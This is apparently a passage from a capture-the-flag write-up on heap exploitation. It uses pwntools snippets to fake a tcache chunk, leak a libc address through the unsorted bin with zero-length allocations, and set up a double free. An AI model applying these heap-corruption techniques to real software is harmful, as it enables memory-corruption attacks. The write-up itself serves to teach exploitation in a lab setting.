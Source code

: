 For `b`, we just need to fake a tcache chunk. In this case, I will use 0x41, but its quite arbitrary.

```python
p.sendlineafter(b"length of meme:", str(0x10).encode())
payload = flat(
    0x0, 0x41,
)
p.sendlineafter(b"meme:", payload)
```

`c` inherits the same chunk size as `b`.

After freeing, this is the state of the bins:

```
tcachebins
0x40 [  2]: 0x7017c0 —▸ 0x701ce0 ◂— 0

fastbins
empty

unsortedbin
all: 0x701790 —▸ 0x7f7f99fa7be0 ◂— 0x701790

smallbins
empty

largebins
empty
```

Our 2 fake tcache chunks are nicely placed in tcache, and the unsorted bin contains our one chunk with the libc leak.

Unsorted bin is used to service small requests when tcache, fastbin, and smallbin don't have exact fit for the requested
chunk size. In our next iteration, if we allocate a chunk of size 0x0, not only will it allocate from the unsorted bin,
it will obviously also write 0 bytes to the memory at that chunk, which allows us to retain our libc leak (if not,
`fgets` will append null terminator and block off our libc leak).

```python
p.sendlineafter(b"length of meme:", str(0x0).encode())
```

Now `a` contains our libc leak and we can read it once `c` is written to stdout.

## Double free

Let's go ahead and also make `b` size 0x0.

```python
p.sendlineafter(b"length of meme:", str(0x0).encode())
```
